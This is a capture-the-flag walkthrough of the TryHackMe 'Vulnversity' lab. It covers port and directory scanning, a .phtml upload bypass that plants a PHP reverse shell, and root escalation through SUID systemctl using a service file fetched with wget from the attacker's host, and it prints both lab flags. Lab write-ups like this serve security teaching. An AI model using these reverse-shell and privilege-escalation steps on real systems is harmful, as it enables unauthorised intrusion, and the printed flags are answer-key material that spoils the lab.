





# THM_Vulnversity

---

### [Task 2] Reconnaissance

- Scan the box, how many ports are open?

  **Solution: 6**

  ~~~bash
  $ nmap 10.10.63.39
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 22:50 CEST
  Nmap scan report for 10.10.63.39
  Host is up (0.038s latency).
  Not shown: 994 closed ports
  PORT     STATE SERVICE
  21/tcp   open  ftp
  22/tcp   open  ssh
  139/tcp  open  netbios-ssn
  445/tcp  open  microsoft-ds
  3128/tcp open  squid-http
  3333/tcp open  dec-notes
  
  Nmap done: 1 IP address (1 host up) scanned in 1.75 seconds
  ~~~

- What version of the squid proxy is running on the machine?

  **Solution: 3.5.12**

  ~~~bash
  $ nmap 10.10.63.39 -p3128 -sV
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 22:51 CEST
  Nmap scan report for 10.10.63.39
  Host is up (0.049s latency).
  
  PORT     STATE SERVICE    VERSION
  3128/tcp open  http-proxy Squid http proxy 3.5.12
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 13.04 seconds
  ~~~

- How many ports will nmap scan if the flag **-p-400** was used?

  **Solution: 400** 

  ~~~bash
  $ nmap 10.10.63.39 -p-400 -v
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 22:54 CEST
  Initiating Ping Scan at 22:54
  Scanning 10.10.63.39 [2 ports]
  Completed Ping Scan at 22:54, 0.04s elapsed (1 total hosts)
  Initiating Parallel DNS resolution of 1 host. at 22:54
  Completed Parallel DNS resolution of 1 host. at 22:54, 1.03s elapsed
  Initiating Connect Scan at 22:54
  Scanning 10.10.63.39 [400 ports]
  Discovered open port 21/tcp on 10.10.63.39
  Discovered open port 139/tcp on 10.10.63.39
  Discovered open port 22/tcp on 10.10.63.39
  Completed Connect Scan at 22:54, 0.35s elapsed (400 total ports)
  (...)
  ~~~

- Using the nmap flag **-n** what will it not resolve?

  **Solution: dns**

  ~~~bash
  $ nmap -h
  Nmap 7.80 ( https://nmap.org )
  Usage: nmap [Scan Type(s)] [Options] {target specification}
  TARGET SPECIFICATION:
    Can pass hostnames, IP addresses, networks, etc.
    Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
    -iL <inputfilename>: Input from list of hosts/networks
    -iR <num hosts>: Choose random targets
    --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
    --excludefile <exclude_file>: Exclude list from file
  HOST DISCOVERY:
    -sL: List Scan - simply list targets to scan
    -sn: Ping Scan - disable port scan
    -Pn: Treat all hosts as online -- skip host discovery
    -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
    -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
    -PO[protocol list]: IP Protocol Ping
    -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
    (...)
  ~~~

- What is the most likely operating system this machine is running?

  **Solution:**

  ~~~bash
  $ sudo nmap 10.10.63.39 -A
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 23:00 CEST
  Nmap scan report for 10.10.63.39
  Host is up (0.039s latency).
  Not shown: 994 closed ports
  PORT     STATE SERVICE     VERSION
  21/tcp   open  ftp         vsftpd 3.0.3
  22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
  |   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
  |_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
  139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
  3128/tcp open  http-proxy  Squid http proxy 3.5.12
  |_http-server-header: squid/3.5.12
  |_http-title: ERROR: The requested URL could not be retrieved
  3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Vuln University
  No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
  TCP/IP fingerprint:
  OS:SCAN(V=7.80%E=4%D=10/9%OT=21%CT=1%CU=38234%PV=Y%DS=2%DC=T%G=Y%TM=5F80CF9
  OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)SEQ
  OS:(SP=106%GCD=1%ISR=10B%TI=Z%CI=RD%TS=8)OPS(O1=M505ST11NW6%O2=M505ST11NW6%
  OS:O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=68DF%W2
  OS:=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNS
  OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
  OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
  OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
  OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
  OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
  
  Network Distance: 2 hops
  Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  
  Host script results:
  |_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
  |_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  | smb-os-discovery: 
  |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
  |   Computer name: vulnuniversity
  |   NetBIOS computer name: VULNUNIVERSITY\x00
  |   Domain name: \x00
  |   FQDN: vulnuniversity
  |_  System time: 2020-10-09T17:01:06-04:00
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  | smb2-security-mode: 
  |   2.02: 
  |_    Message signing enabled but not required
  | smb2-time: 
  |   date: 2020-10-09T21:01:06
  |_  start_date: N/A
  
  TRACEROUTE (using port 1025/tcp)
  HOP RTT      ADDRESS
  1   37.75 ms 10.9.0.1
  2   38.58 ms 10.10.63.39
  
  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 42.51 seconds
  ~~~

- What port is the web server running on?

  **Solution:3333**

  ~~~bash
  $ sudo nmap 10.10.63.39 -A
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 23:00 CEST
  Nmap scan report for 10.10.63.39
  Host is up (0.039s latency).
  Not shown: 994 closed ports
  PORT     STATE SERVICE     VERSION
  21/tcp   open  ftp         vsftpd 3.0.3
  22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
  |   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
  |_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
  139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
  3128/tcp open  http-proxy  Squid http proxy 3.5.12
  |_http-server-header: squid/3.5.12
  |_http-title: ERROR: The requested URL could not be retrieved
  3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Vuln University
  No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
  (...)
  ~~~

---

### [Task 3]  Locating directories using GoBuster

- What is the directory that has an upload form page?

  **Solution: /internal/**

  ~~~bash
  $ gobuster dir -u http://10.10.5.177:3333 -w /usr/share/wordlists/dirb/big.txt 
  ===============================================================
  Gobuster v3.0.1
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
  ===============================================================
  [+] Url:            http://10.10.5.177:3333
  [+] Threads:        10
  [+] Wordlist:       /usr/share/wordlists/dirb/big.txt
  [+] Status codes:   200,204,301,302,307,401,403
  [+] User Agent:     gobuster/3.0.1
  [+] Timeout:        10s
  ===============================================================
  2020/10/10 16:31:27 Starting gobuster
  ===============================================================
  /.htaccess (Status: 403)
  /.htpasswd (Status: 403)
  /css (Status: 301)
  /fonts (Status: 301)
  /images (Status: 301)
  /internal (Status: 301)
  /js (Status: 301)
  /server-status (Status: 403)
  ===============================================================
  2020/10/10 16:32:56 Finished
  ===============================================================
  ~~~

  

---

### [Task 4]  Compromise the webserver

- Try upload a few file types to the server, what common extension seems to be blocked?

  **Solution: .php**

  

- What extension is allowed?

  **Solution: .phtml**

  

- What is the name of the user who manages the webserver?

  **Solution: bill**

  > *Note: This first step is not required. The existence of `/uploads` is already said in the challenge.*

  ~~~bash
  $ gobuster dir -u http://10.10.5.177:3333/internal/ -w /usr/share/wordlists/dirb/big.txt 
  ===============================================================
  Gobuster v3.0.1
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
  ===============================================================
  [+] Url:            http://10.10.5.177:3333/internal/
  [+] Threads:        10
  [+] Wordlist:       /usr/share/wordlists/dirb/big.txt
  [+] Status codes:   200,204,301,302,307,401,403
  [+] User Agent:     gobuster/3.0.1
  [+] Timeout:        10s
  ===============================================================
  2020/10/10 17:08:38 Starting gobuster
  ===============================================================
  /.htpasswd (Status: 403)
  /.htaccess (Status: 403)
  /css (Status: 301)
  /uploads (Status: 301)
  ===============================================================
  2020/10/10 17:10:06 Finished
  ===============================================================
  ~~~

  > *Using [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) , changing the extension to `.phtml` and uploading.*

  

  ~~~bash
  $ nc -lvp 1234
  listening on [any] 1234 ...
  10.10.5.177: inverse host lookup failed: Unknown host
  connect to [10.9.90.233] from (UNKNOWN) [10.10.5.177] 49168
  Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
   11:18:49 up 51 min,  0 users,  load average: 0.02, 0.01, 0.00
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ cd home
  $ ls
  bill
  ~~~

- What is the user flag?

  **Solution: 8bd7992fbe8a6ad22a63361004cfcedb**

  ~~~bash
  $ cd bill
  $ ls      
  user.txt
  $ cat user.txt
  8bd7992fbe8a6ad22a63361004cfcedb
  ~~~

---

### [Task 5]  Privilege Escalation

- On the system, search for all SUID files. What file stands out?

  **Solution: /bin/systemctl**

  ~~~bash
  $ find / -perm /4000 2>/dev/null
  /usr/bin/newuidmap
  /usr/bin/chfn
  /usr/bin/newgidmap
  /usr/bin/sudo
  /usr/bin/chsh
  /usr/bin/passwd
  /usr/bin/pkexec
  /usr/bin/newgrp
  /usr/bin/gpasswd
  /usr/bin/at
  /usr/lib/snapd/snap-confine
  /usr/lib/policykit-1/polkit-agent-helper-1
  /usr/lib/openssh/ssh-keysign
  /usr/lib/eject/dmcrypt-get-device
  /usr/lib/squid/pinger
  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
  /bin/su
  /bin/ntfs-3g
  /bin/mount
  /bin/ping6
  /bin/umount
  /bin/systemctl
  /bin/ping
  /bin/fusermount
  /sbin/mount.cifs
  $ ls -l /bin/systemctl
  -rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
  ~~~

  > *It isn´t common to see systemctl with suid flag. This misconfiguration can be leverage to escalate privileges* 
  >
  > [See this link for more information](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49)

- Become root and get the last flag (/root/root.txt)

  **Solution: a58ff8579f0a9270368d33a9966c7fd5**

  > *We need to create a service to exploit the misconfiguration. On the local machine, with `atom`*

  

  

  > *On the victim´s machine, we need to download the service created and execute it with systemctl.*
  >
  > *So, in the `/tmp` dir.*

  ~~~bash
  $ cd /tmp
  $ mkdir wget
  $ cd wget
  $ wget 10.9.90.233:8000/pivesc.service
  --2020-10-10 12:16:45--  http://10.9.90.233:8000/pivesc.service
  Connecting to 10.9.90.233:8000... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 170 [application/octet-stream]
  Saving to: 'pivesc.service'
  
       0K                                                       100% 4.25M=0s
  
  2020-10-10 12:16:46 (4.25 MB/s) - 'pivesc.service' saved [170/170]
  
  $ ls  
  pivesc.service
  $ /bin/systemctl enable /tmp/wget/pivesc.service
  Created symlink from /etc/systemd/system/multi-user.target.wants/pivesc.service to /tmp/wget/pivesc.service.
  Created symlink from /etc/systemd/system/pivesc.service to /tmp/wget/pivesc.service.
  $ /bin/systemctl start pivesc
  ~~~

  > Finally in our machine, using `netcat` to connect to the service started. 

  ~~~bash
  $ nc -lvp 4321
  listening on [any] 4321 ...
  10.10.5.177: inverse host lookup failed: Unknown host
  connect to [10.9.90.233] from (UNKNOWN) [10.10.5.177] 57702
  bash: cannot set terminal process group (2180): Inappropriate ioctl for device
  bash: no job control in this shell
  root@vulnuniversity:/# ls
  ls
  bin
  boot
  dev
  etc
  home
  initrd.img
  lib
  lib64
  lost+found
  media
  mnt
  opt
  proc
  root
  run
  sbin
  snap
  srv
  sys
  tmp
  usr
  var
  vmlinuz
  root@vulnuniversity:/# cd root
  cd root
  root@vulnuniversity:~# ls
  ls
  root.txt
  root@vulnuniversity:~# cat root.txt
  cat root.txt
  a58ff8579f0a9270368d33a9966c7fd5
  ~~~

---

